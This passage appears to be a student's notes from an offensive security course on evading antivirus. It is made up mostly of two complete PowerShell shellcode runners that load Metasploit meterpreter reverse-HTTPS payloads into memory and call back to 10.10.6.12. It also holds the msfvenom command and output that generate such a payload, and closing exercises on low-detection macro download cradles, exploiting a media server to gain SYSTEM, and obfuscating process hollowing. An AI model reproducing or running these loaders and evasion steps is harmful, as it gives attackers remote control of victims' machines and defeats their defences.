[Byte[]] $yLeELLDlg = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x51,0x48,0x8b,0x52,0x20,0x56,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x41,0x51,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x8b,0x48,0x18,0x50,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0xd,0xac,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x41,0x58,0x41,0x58,0x48,0x1,0xd0,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xb,0x0,0x0,0x0,0x31,0x30,0x2e,0x31,0x30,0x2e,0x36,0x2e,0x31,0x32,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x5b,0x11,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0x39,0x0,0x0,0x0,0x2f,0x53,0x68,0x48,0x69,0x46,0x41,0x58,0x74,0x78,0x78,0x75,0x38,0x53,0x72,0x31,0x49,0x33,0x6f,0x56,0x59,0x68,0x41,0x63,0x79,0x4a,0x62,0x4d,0x4f,0x4c,0x6f,0x4f,0x49,0x44,0x72,0x6b,0x73,0x57,0x6e,0x58,0x6e,0x46,0x70,0x61,0x6d,0x73,0x54,0x78,0x59,0x4f,0x64,0x36,0x49,0x30,0x48,0x6b,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5


$GSfOvKdOQ = $XYTObEhYph::VirtualAlloc(0,[Math]::Max($yLeELLDlg.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($yLeELLDlg,0,$GSfOvKdOQ,$yLeELLDlg.Length)
		
$thandle=$XYTObEhYph::CreateThread(0,0,$GSfOvKdOQ,0,0,0)
$XYTObEhYph::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

# in order to make payload for ps1

```ps1
──(root㉿kali)-[/home/kali/codeplay/CVE-2022-1388]
└─# msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=10.10.6.12 LPORT=4443 -f psh -o new.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 747 bytes
Final size of psh file: 4404 bytes
Saved as: new.ps1
                                                                                                                             
┌──(root㉿kali)-[/home/kali/codeplay/CVE-2022-1388]
└─# cat new.ps1     
$MyOwGpiLF = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$nFHoxupEYPGPRa = Add-Type -memberDefinition $MyOwGpiLF -Name "Win32" -namespace Win32Functions -passthru

[Byte[]] $OgJxdhLHmMl = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x41,0x51,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x44,0x8b,0x40,0x20,0x8b,0x48,0x18,0x50,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,0xd,0xac,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xb,0x0,0x0,0x0,0x31,0x30,0x2e,0x31,0x30,0x2e,0x36,0x2e,0x31,0x32,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x5b,0x11,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xc5,0x0,0x0,0x0,0x2f,0x45,0x6e,0x61,0x52,0x69,0x4d,0x53,0x72,0x73,0x6b,0x62,0x6c,0x55,0x4f,0x52,0x53,0x68,0x35,0x38,0x43,0x5f,0x77,0x6e,0x32,0x33,0x72,0x34,0x79,0x72,0x71,0x35,0x68,0x53,0x5f,0x33,0x55,0x4d,0x4b,0x76,0x47,0x5a,0x4d,0x37,0x42,0x4b,0x6d,0x35,0x4d,0x68,0x78,0x65,0x4e,0x53,0x4f,0x51,0x56,0x64,0x70,0x6e,0x42,0x5f,0x61,0x56,0x4e,0x44,0x67,0x7a,0x33,0x4c,0x71,0x35,0x62,0x6b,0x32,0x71,0x36,0x31,0x44,0x45,0x47,0x46,0x70,0x52,0x32,0x6c,0x48,0x43,0x76,0x59,0x6d,0x4b,0x76,0x46,0x63,0x5f,0x6e,0x59,0x51,0x4e,0x43,0x75,0x77,0x69,0x51,0x46,0x32,0x61,0x65,0x69,0x69,0x59,0x38,0x79,0x43,0x78,0x2d,0x39,0x72,0x4a,0x6f,0x54,0x4d,0x54,0x44,0x44,0x5f,0x54,0x7a,0x67,0x49,0x4c,0x59,0x49,0x67,0x34,0x4c,0x37,0x4b,0x6e,0x4b,0x62,0x35,0x49,0x4d,0x42,0x78,0x4a,0x63,0x58,0x57,0x2d,0x33,0x77,0x56,0x43,0x56,0x38,0x30,0x68,0x70,0x33,0x53,0x45,0x49,0x4e,0x31,0x4b,0x6a,0x47,0x64,0x45,0x45,0x55,0x79,0x54,0x33,0x5a,0x79,0x4f,0x55,0x47,0x6d,0x64,0x55,0x34,0x70,0x33,0x34,0x30,0x63,0x61,0x4f,0x6e,0x30,0x48,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5


$dQNOxwzloVP = $nFHoxupEYPGPRa::VirtualAlloc(0,[Math]::Max($OgJxdhLHmMl.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($OgJxdhLHmMl,0,$dQNOxwzloVP,$OgJxdhLHmMl.Length)

$nFHoxupEYPGPRa::CreateThread(0,0,$dQNOxwzloVP,0,0,0)

```

### Exercise

6.8.3.1 Exercises
1. Replicate the detection evasion steps in this section to obtain a VBA macro with a 
PowerShell download cradle that has a very low detection rate.
2. Use alternative encryption routines and antivirus emulator detections to trigger as few 
detections as possible.
3. The Windows 10 victim machine has an instance of Serviio PRO 1.8 DLNA Media Streaming 
Server installed. Exploit it336 to obtain SYSTEM privileges while evading the Avira antivirus 
with real-time detection enabled

### 6.8.3.2 Extra Mile Exercise
Modify, encrypt, and obfuscate the process hollowing techniques previously implemented in C# 
to bypass antivirus detection